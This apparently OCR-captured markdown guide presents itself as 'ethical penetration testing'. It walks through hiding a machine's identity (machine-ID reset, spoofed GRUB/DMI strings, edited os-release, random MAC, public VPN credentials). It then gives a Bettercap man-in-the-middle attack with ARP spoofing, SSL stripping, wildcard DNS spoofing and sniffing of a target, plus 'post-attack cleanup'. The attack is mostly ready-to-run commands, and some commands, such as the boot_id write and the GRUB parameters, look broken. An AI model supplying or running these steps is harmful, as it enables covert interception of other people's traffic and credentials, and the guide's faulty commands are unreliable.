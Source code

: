 (Due to technical issues, the search service is temporarily unavailable.)

```markdown
# Ultimate Guide to System Anonymity & Ethical Penetration Testing

> **Disclaimer**: This guide is for **educational purposes only**. Unauthorized network interception is illegal. Always obtain explicit permission and comply with local laws.

---

## 🔒 Step 1: System Anonymization

### 🆔 Randomize Machine Identifiers
```bash
# Reset machine IDs
echo -n | sudo tee /etc/machine-id
dbus-uuidgen | sudo tee /etc/machine-id
sudo cp /etc/machine-id /var/lib/dbus/machine-id
echo "00000000-0000-0000-0000-000000000000" | sudo tee /proc/sys/kernel/random/boot_id
```

### 🖥️ GRUB Configuration Spoofing
1. Edit GRUB config:
   ```bash
   sudo nano /etc/default/grub
   ```
2. Add these parameters:
   ```ini
   GRUB_CMDLINE_LINUX="dmi.modname=AnonBook dmi.product=Anonymous-Laptop dmi.bios=1.0.0"
   ```
3. Apply changes:
   ```bash
   sudo update-grub
   ```

### 🐧 OS Identity Masking
```bash
sudo nano /etc/os-release  # Change "Kali GNU/Linux" to "Generic Linux"
```

### 📡 MAC Address Spoofing
```bash
sudo ip link set dev <interface> down
sudo macchanger -r <interface>  # -r = random
sudo ip link set dev <interface> up
torify curl ifconfig.me  # Verify Tor connectivity
```

---

## 🛡️ Step 2: VPN Setup (OpenVPN Example)
```bash
cd ~/Downloads/vpn
sudo openvpn vpnbook-de220-udp25000.ovpn
```
**Credentials** (Verify at [vpnbook.com](https://www.vpnbook.com) via Tor):
- Username: `vpnbook`
- Password: `zm396a4`

---

## 🔪 Step 3: Terminate Data-Leaking Services
```bash
sudo systemctl stop dropbox google-drive slack telegram-desktop
```

---

## 🏷️ Step 4: Hostname Obfuscation
```bash
sudo hostnamectl set-hostname "localhost"
```

---

## ⚔️ Step 5: Anonymous Network Analysis (Bettercap)

### 🕵️♂️ Launch Bettercap
```bash
sudo bettercap -iface wlan0
```

### 🔍 In Bettercap Session:
```ruby
net.probe on
net.show  # Identify targets
arp.spoof.targets <target_IP>
set arp.spoof.fullduplex true
arp.spoof on
set http.proxy.sslstrip true
set dns.spoof.domains *
http.proxy on
net.sniff on  # Traffic inspection only!
dns.spoof on
```

### 🔄 Port Redirection
```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

---

## 🧼 Post-Attack Cleanup

### ↪️ Revert Changes
```bash
# Restore original MAC
sudo macchanger -p <interface>

# Remove iptables rule
sudo iptables -t nat -D PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080

# Reset hostname
sudo hostnamectl set-hostname <original_name>
```

---

## 🚨 Critical Notes
1. **Legal Compliance**: Always operate within authorized networks
2. **VM Recommendation**: Use virtual machines for reversible changes
3. **Credential Hygiene**: VPN credentials change frequently - always verify
4. **Network Safety**: Never execute `net.sniff` on untrusted networks
5. **Full Anonymity**: Combine Tor + VPN for maximum privacy

```diff
- Warning: Improper use may lead to legal consequences!
+ Ethical hacking strengthens security - never exploit without permission
```

> Made with ❤️ for cybersecurity enthusiasts. Knowledge is power - use it responsibly.
```
